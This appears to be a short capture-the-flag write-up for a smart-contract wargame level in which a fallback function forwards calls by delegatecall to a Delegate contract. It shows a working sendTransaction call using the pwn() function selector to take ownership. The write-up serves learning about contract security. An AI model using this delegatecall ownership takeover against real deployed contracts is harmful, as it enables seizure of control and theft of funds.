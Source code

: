 # Answer

Goal: Claim ownership of the contract.

## 1. Becoming the owner

The contract has a fallback function which calls Delegate contract using delegatecall. In turn Delegate contract has owner overriding function. I think you know where we are going with this:

```js
sendTransaction({
  to: contract.address,
  from: player,
  data: '0xdd365b8b', // pwn() function selector
})
```

